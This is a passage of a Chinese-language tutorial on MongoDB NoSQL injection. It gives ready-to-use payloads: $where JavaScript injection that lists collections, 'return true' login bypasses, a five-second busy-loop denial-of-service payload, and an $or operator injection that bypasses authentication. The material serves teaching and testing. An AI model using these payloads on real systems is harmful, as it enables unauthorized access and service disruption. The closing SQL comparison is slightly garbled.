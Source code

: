 - **MongoDB 2.4 之前**

在 MongoDB 2.4 之前，通过 `$where` 操作符使用 `map-reduce`、`group` 命令可以访问到 Mongo Shell 中的全局函数和属性，如 `db`，也就是说可以通过自定义 JavaScript 函数来获取数据库的所有信息。

如下所示，发送以下数据后，如果有回显的话将获取当前数据库下所有的集合名：

```php
username=1&password=1';(function(){return(tojson(db.getCollectionNames()))})();var a='1
```

- **MongoDB 2.4 之后**

MongoDB 2.4 之后 `db` 属性访问不到了，但我们应然可以构造万能密码。如果此时我们发送以下这几种数据：

```php
username=1&password=1';return true//
或
username=1&password=1';return true;var a='1
```

也是可以查出所有信息的  
DOS的一个playload：

```php
username=1&password=1';(function(){var date = new Date(); do{curDate = new Date();}while(curDate-date<5000); return Math.max();})();var a='1
```

也就是一直循环嘛

### 联合查询注入

假设后端的 MongoDB 查询语句使用了字符串拼接：

```php
string query ="{ username: '" + $username + "', password: '" + $password + "' }"
```

当用户正确的用户名密码进行登录时，得到的查询语句是应该这样的：

```php
{'username':'admin', 'password':'123456'}
```

如果此时没有很好地对用户的输入进行过滤或者效验，那攻击者便可以构造如下 payload：

```php
username=admin', $or: [ {}, {'a': 'a&password=' }], $comment: '123456
```

拼接入查询语句后相当于执行了：

```php
{ username: 'admin', $or: [ {}, {'a':'a', password: '' }], $comment: '123456'}
```

此时，只要用户名是正确的，这个查询就可以成功。这种手法和 SQL 注入比较相似：

```php
select * from logins where username = 'admin' and (password true<> or ('a'='a' and password = ''))
```
